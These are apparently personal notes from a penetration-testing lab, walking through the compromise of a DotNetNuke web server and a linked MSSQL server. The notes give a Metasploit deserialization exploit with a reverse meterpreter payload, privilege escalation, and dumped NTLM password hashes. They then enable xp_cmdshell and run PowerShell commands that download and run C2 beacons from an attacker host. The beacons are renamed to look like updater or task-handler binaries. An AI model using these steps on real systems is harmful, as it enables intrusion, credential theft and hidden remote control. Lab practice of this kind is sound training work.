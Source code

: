 Regain Access:
```

```

Nmap scan below. Looked like a promising first hit.
```
Nmap scan report for 10.10.110.10
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 30 disallowed entries (15 shown)
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
|_http-title: Home
443/tcp   closed https
3391/tcp  closed savant
49443/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Website is running DNN (dotnetnuke)
![[Pasted image 20250501120838.png]]

Potentially version 7.0
![[Pasted image 20250501121056.png]]

Registering a user tells us that the site admin has to verify and view our request.
![[Pasted image 20250501121310.png]]

Weak version of DNN, maybe google and look for an RCE?
No luck with a dnn cookie deserialization rce
![[Pasted image 20250501122524.png]]

It looks vulnerable, helpful blogpost?

https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization

Need to change the payload to  

```bash
msfconsole -q
use windows/http/dnn_cookie_deserialization_rce
set lhost tun0
set rhosts 10.10.110.10
set payload payload/windows/meterpreter/reverse_http
# In meterpreter, only privesc if you need to
getsystem
# Might need to repeat it a second time
getsystem
# Use privileged meterpreter to run privileged beacon
# Upload beacon
meterpreter > upload /home/kali/work/prolab/sliver/httpbeacon443.exe C:\\Windows\\Tasks\\handler.exe
meterpreter > 
```
We should be aware of Firewalls. Reverse http is very good at getting around these.
We can use meterpreter getsystem to privesc, and then hashdump to get some hashes,


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We'll find the first flag in the DotNetNukedirectory

Checking the running processes, we see some SQL stuff running. We can use nmap, netexec, bloodhound to figure out the names of the servers.

Using netexec, we can check for anything in the domain running MSSQL
```bash
netexec mssql 10.9.20.13/24 -u '' -p ''
```
![[Pasted image 20250528223400.png]]

Through the binaries, it's sort of implied that we have permissions to this SQL server. 

We need to use sqlcmd
https://github.com/microsoft/go-sqlcmd/releases/tag/v1.8.2
```bash
wget https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.2/sqlcmd-windows-amd64.zip
unzip sqlcmd-windows-amd64.zip
```

We can upload this using our Mythic C2.

```mythic
upload
```

And then run it. We're using the shell command in Mythic C2, and then passing everything after that as an arguement
```
shell C:\windows\tasks\sqlcmd.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```
It doesn't seem to like the name 'sqlcmd.exe', so we'll rename it.
![[Pasted image 20250528224341.png]]

```
shell C:\windows\tasks\update64.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```

That doesn't work. It turns out that it's actually the cywebdw MSSQL server that we can authenticate to. This makes sense, because we're on a web server. Also note the domain at the end (m3c.local).
```
shell C:\windows\tasks\update64.exe -S CYWEBDW -Q "EXECUTE('SELECT name FROM master.dbo.sysdatabases') AT[m3sqlw.m3c.local];"
```

![[Pasted image 20250528225500.png]]

We can try enabling XP_CMDShell

Ask chatgpt to fix the error and make it workhen the next command
```bash
# Enable xp_cmdshell
shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

# Run Whoami
shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''whoami''') AT[m3sqlw.m3c.local];"

# Download the Beaco
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:139/updater64.exe -OutFile c:\windows\tasks\updater64.exe''') AT [m3sqlw.m3c.local];"
```

After a LOT of trouble, we learn that only 80 and 443 are working for traffic. We have to shut down Ligolo to download the file.
```bash
# Download the beacon
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:443/taskhandler64.exe -OutFile c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"

# Run it
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"
```

## Sliver Commands
```bash
# Upload sqlcmd
sliver > upload /home/kali/work/prolab/web/sqlcmd.exe C:\\ProgramData\\updater64.exe

# Enable XP_CMDshell
sliver > execute C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

# Spawn an interactive shell
sliver > shell
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

# Run Whoami
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''whoami''') AT[m3sqlw.m3c.local];"

# Download Beacon
shell > C:\ProgramData\updater64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.15.250:443/httpbea.exe -OutFile C:\ProgramData\updater64.exe''') AT [m3sqlw.m3c.local];"
```